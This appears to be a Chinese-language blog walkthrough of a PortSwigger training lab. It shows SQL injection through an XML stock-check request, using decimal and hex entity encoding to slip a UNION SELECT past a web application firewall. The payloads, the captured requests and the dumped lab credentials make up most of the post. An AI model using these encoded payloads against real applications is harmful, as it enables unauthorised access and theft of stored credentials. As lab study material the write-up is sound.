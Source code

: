 ```yaml
---
layout: post
title: "SQL injection with filter bypass via XML encoding"
description: ""
date: 2023-07-11
categories:
  - PortSwigger_Lab
  - PortSwigger_SQL_Injection
author: ""
tags: ['PortSwigger_Lab', 'SQL_Injection']
---
```






# SQL injection with filter bypass via XML encoding


```

This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a `users` table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.

#### Hint

A web application firewall (WAF) will block requests that contain obvious signs of a SQL injection attack. You'll need to find a way to obfuscate your malicious query to bypass this filter. We recommend using the [Hackvertor](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100) extension to do this.



該實驗室在其庫存檢查功能中包含 [SQL 注入](https://portswigger.net/web-security/sql-injection) 漏洞。 查詢的結果在應用程序的響應中返回，因此您可以使用 UNION 攻擊從其他表中檢索數據。

該數據庫包含一個“用戶”表，其中包含註冊用戶的用戶名和密碼。 要解決實驗室問題，請執行 SQL 注入攻擊以檢索管理員用戶的憑據，然後登錄到他們的帳戶。

＃＃＃＃ 暗示

Web 應用程序防火牆 (WAF) 將阻止包含明顯 SQL 注入攻擊跡象的請求。 您需要找到一種方法來混淆您的惡意查詢以繞過此過濾器。 我們建議使用 [Hackvertor](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100) 擴展來執行此操作。









```




  check stock 抓包:
```http
POST /product/stock HTTP/1.1
Host: 0ab3009d04aec2f9c0ff2c8d00be003c.web-security-academy.net
Cookie: session=0G4VEqc6LLHRdFlR9E9YUFQsM4JOEeQV
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0ab3009d04aec2f9c0ff2c8d00be003c.web-security-academy.net/product?productId=3
Content-Type: application/xml
Content-Length: 107
Origin: https://0ab3009d04aec2f9c0ff2c8d00be003c.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>3</productId><storeId>3</storeId></stockCheck>


```

看到一段XML 與髮

Lodon paris milan 三個區域按鈕。storeID 分別為 1,2,3
```xml


<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>3</productId>
	<storeId>1</storeId>
</stockCheck>


/////////////////////////////////////////////////////////////

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>3</productId>
	<storeId>2</storeId>
</stockCheck>


/////////////////////////////////////////////////////////////

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>3</productId>
	<storeId>3</storeId>
</stockCheck>

```


測試注入類型，字符型，bool 型。

閉合被WAF 檔了，真實狀況不知道到底是哪種。
```
<storeId>1' union select 123--</storeId>

//"Attack detected"
```


 幸好這題還可以使用bool 注入。 使用1+1 邏輯去跑
```
<storeId>1+1</storeId>

//381 units

```


試試看 union 注入，也被擋了。
```
<storeId>1 UNION SELECT NULL</storeId>

//"Attack detected"
```


所以基本上只能混淆繞過防火牆了。

這邊官方推薦。

## Burpsuite插件之Hackvertor
https://github.com/lilifengcode/Burpsuite-Plugins-Usage/blob/master/Burpsuite%E6%8F%92%E4%BB%B6%E4%B9%8BHackvertor%E4%BD%BF%E7%94%A8%E6%96%B9%E6%B3%95.md

符號 || 為串接，把username 和 password 串成同一個欄位。

關方建議使用 dec_entitles 或 hex_entitles 轉譯:

```

<storeId><@hex_entities>1 UNION SELECT username || '~' || password FROM users<@/hex_entities></storeId>
```

dec_entitles:
```
&#49;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#117;&#115;&#101;&#114;&#110;&#97;&#109;&#101;&#32;&#124;&#124;&#32;&#39;&#126;&#39;&#32;&#124;&#124;&#32;&#112;&#97;&#115;&#115;&#119;&#111;&#114;&#100;&#32;&#70;&#82;&#79;&#77;&#32;&#117;&#115;&#101;&#114;&#115;
```


hex_entitles:
```xml
<stockCheck>
	<productId>3</productId>
	<storeId>&#x31;&#x20;&#x55;&#x4e;&#x49;&#x4f;&#x4e;&#x20;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x7c;&#x7c;&#x20;&#x27;&#x7e;&#x27;&#x20;&#x7c;&#x7c;&#x20;&#x70;&#x61;&#x73;&#x73;&#x77;&#x6f;&#x72;&#x64;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;</storeId>
</stockCheck>

```



```
972 units
wiener~k4q7fp1wsy1o459i9bs1
carlos~bzlr55bm0yhj7q2gk3be
administrator~ptpjb8pkvyqo7410xe62
```